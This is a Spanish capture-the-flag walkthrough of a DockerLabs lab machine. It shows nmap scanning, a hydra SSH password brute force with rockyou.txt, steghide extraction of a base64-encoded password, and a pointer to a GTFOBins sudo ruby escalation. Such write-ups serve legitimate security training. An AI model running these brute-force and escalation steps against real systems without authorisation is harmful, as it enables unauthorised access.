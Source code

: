 Comienzo haciendo nmap, encontrando dos puertos abiertos con servicios no vulnerables:
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```


![](Imágenes/Pasted%20image%2020240812132611.png)

Accedo a la página desde el browser, encontrando el siguiente mensaje interesante:

![](Imágenes/Pasted%20image%2020240812132801.png)

Pruebo a acceder encontrar la contraseña de carlota con hydra, usando el diccionario `rockyou.txt`, que resulta ser `babygirl` 

```
sudo hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 
```

![](Imágenes/Pasted%20image%2020240812134830.png)

Me conecto por ssh y me encuentro un fichero, que paso a mi ordenador: 

```
scp ./Desktop/fotos/vacaciones/imagen.jpg pablo@192.168.1.63:/home/pablo/dockerlabs/amor
```

Utilizo exiftool, sin encontrar nada que me parezca de valor y posteriormente steghide, encontrando el siguiente texto : `ZXNsYWNhc2FkZXBpbnlwb24=`, que tiene pinta de estar escrito en base64. Lo decodifico, encontrando el texto `eslacasadepinypon`

```
steghide --extract -sf imagen.jpg
```


![](Imágenes/Pasted%20image%2020240812235022.png)
![](Imágenes/Pasted%20image%2020240812235204.png)
Compruebo si es la contraseña de su, pero no es el caso, así que sigo buscando información. Miro si puedo escalar privilegios con `sudo -l`, sin éxito. Compruebo si hay más carpetas en /home, y encuentro una llamada `oscar`. Pruebo la contraseña con ese usuario y veo que funciona. 
![](Imágenes/Pasted%20image%2020240812235548.png)

![](Imágenes/Pasted%20image%2020240812235435.png)

Haciendo `sudo -l` en oscar veo que puedo ejecutar `ruby` como superusuario. Busco en gtfobins y encuentro lo siguiente: https://gtfobins.github.io/gtfobins/ruby/#sudo

![](Imágenes/Pasted%20image%2020240812235731.png)

![](Imágenes/Pasted%20image%2020240812235742.png)

# Anonymouspingu
